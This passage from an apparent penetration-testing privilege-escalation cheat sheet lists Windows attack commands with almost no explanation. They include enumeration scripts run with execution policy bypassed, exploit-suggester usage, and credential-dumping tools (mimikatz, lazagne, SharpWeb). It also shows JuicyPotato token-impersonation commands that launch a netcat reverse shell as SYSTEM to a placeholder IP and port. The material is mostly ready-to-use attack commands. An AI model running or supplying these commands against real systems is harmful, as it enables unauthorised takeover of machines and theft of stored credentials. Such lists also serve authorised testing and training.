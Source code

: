 ```
SSH public key + Predictable PRNG
apt update hooking (PreInvoke)
```

### Windows

#### Enumeration scripts

##### General scans

```
winPEAS.exe
windows-privesc-check2.exe
Seatbelt.exe -group=all
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
Powerless.bat
winPEAS.bat
```

##### Search for CVE

```
systeminfo > systeminfo.txt
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database <DATE>-mssb.xlsx --systeminfo systeminfo.txt

systeminfo > systeminfo.txt
wmic qfe > qfe.txt
python wes.py -u
python wes.py systeminfo.txt qfe.txt

powershell -exec bypass -command "& { Import-Module .\Sherlock.ps1; Find-AllVulns; }"
```

##### Post exploitation

```
lazagne.exe all
SharpWeb.exe
mimikatz.exe
```

#### JuicyPotato (SeImpersonate or SeAssignPrimaryToken)

```
If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM.

JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>

# CLSID
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
```
